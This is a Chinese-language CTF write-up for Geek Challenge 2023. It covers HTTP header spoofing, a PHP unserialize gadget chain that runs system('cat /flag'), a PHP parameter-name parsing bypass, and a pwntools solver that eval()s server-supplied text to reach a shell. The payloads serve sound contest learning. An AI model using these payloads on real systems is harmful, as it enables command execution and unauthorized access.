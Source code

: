 ```yaml
---
title: Geek Challenge 2023 Writeup
date: 2023-11-27T22:12:16+08:00
tags: [CTF]
---
```



## Web

### EzHttp

> http签到，点击就送flag http://1.117.175.65:23333/

首先访问题目环境，发现需要进行登录。

```html
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />请post传参username和password进行登录<br><br>
<!--密码有点记不住,所以我把密码记在了不想让爬虫获取的地方!-->
```

访问 `robots.txt`，发现隐藏目录 `/o2takuXX's_username_and_password.txt`。得到账号密码：

```properties
username:admin
password:@dm1N123456r00t#
```

登录后只需要修改一系列 Headers 即可。

```http
POST / HTTP/1.1
Referer: sycsec.com
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1
Via: Syc.vip
O2TAKUXX: GiveMeFlag
Accept: */*
Host: 1.117.175.65:23333
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
 
username=admin&password=%40dm1N123456r00t%23
```

### unsign

> 来签个到吧先

简单的 php 反序列化。

```php
<?php
highlight_file(__FILE__);
class syc
{
    public $cuit;
    public function __destruct()
    {
        echo("action!<br>");
        $function=$this->cuit;
        return $function();
    }
}

class lover
{
    public $yxx;
    public $QW;
    public function __invoke()
    {
        echo("invoke!<br>");
        return $this->yxx->QW;
    }

}

class web
{
    public $eva1;
    public $interesting;

    public function __get($var)
    {
        echo("get!<br>");
        $eva1=$this->eva1;
        $eva1($this->interesting);
    }
}

$web = new web;
$web->eva1 = 'system';
$web->interesting = 'cat /flag';
$lover = new lover;
$lover->yxx = $web;
$syc = new syc;
$syc->cuit = $lover;
echo '=='.serialize($syc).'==';

// O:3:"syc":1:{s:4:"cuit";O:5:"lover":2:{s:3:"yxx";O:3:"web":2:{s:4:"eva1";s:6:"system";s:11:"interesting";s:9:"cat /flag";}s:2:"QW";N;}}
```

### easy_php

> 学了php了，那就来看看这些绕过吧

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);

highlight_file(__FILE__);
include_once('flag.php');
if(isset($_GET['syc'])&&preg_match('/^Welcome to GEEK 2023!$/i', $_GET['syc']) && $_GET['syc'] !== 'Welcome to GEEK 2023!') {
    if (intval($_GET['lover']) < 2023 && intval($_GET['lover'] + 1) > 2024) {
        if (isset($_POST['qw']) && $_POST['yxx']) {
            $array1 = (string)$_POST['qw'];
            $array2 = (string)$_POST['yxx'];
            if (sha1($array1) === sha1($array2)) {
                if (isset($_POST['SYC_GEEK.2023'])&&($_POST['SYC_GEEK.2023']="Happy to see you!")) {
                    echo $flag;
                } else {
                    echo "再绕最后一步吧";
                }
            } else {
                echo "好哩，快拿到flag啦";
            }
        } else {
            echo "这里绕不过去，QW可不答应了哈";
        }
    } else {
        echo "嘿嘿嘿，你别急啊";
    }
}else {
    echo "不会吧不会吧，不会第一步就卡住了吧，yxx会瞧不起你的！";
}
?>
```

最后一步涉及到 php 非法变量名处理的漏洞。正常情况下，POST 参数的变量名中的 `.` 会被替换为 `_`，如果直接传入 `SYC_GEEK.2023`，结果会是 `SYC_GEEK_2023`。但 php 如果在处理变量名时发送错误，就不会继续往后替换。于是可以选择传入 `SYC[GEEK.2023`，php 首先识别到第一个非法符号 `[`，转换为 `_` 后便不再继续往后修改，于是后面的 `.` 不会被替换。

```http
POST /?syc=welcome%20to%20GEEK%202023!&lover=1e4 HTTP/1.1
User-Agent: PostmanRuntime/7.34.0
Accept: */*
Postman-Token: 9d838b87-51d3-4071-8740-aba56f17c660
Host: cbrh82c6znid7hsdjqhhe03ch.node.game.sycsec.com
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
 
qw=true&yxx=true&SYC%5BGEEK.2023=true
```

## Pwn

### nc_pwntools

使用 pwntools 根据要求解出题目即可。

```python
from pwn import *

conn = remote("pwn.node.game.sycsec.com", 31839)
conn.recvuntil(b"1.I need a string to fill my heart \n\n")
conn.sendline(b"a" * 92 + b"Syclover")
conn.recvuntil(b"2.This challenge is harder than first one\n")
question = conn.recvline().split(b"=")[0]
conn.sendline(str(eval(question)))
conn.recvuntil("shell!\n\n")

conn.interactive()

# SYC{6HG3fWrKoEadc3nLaj}
```

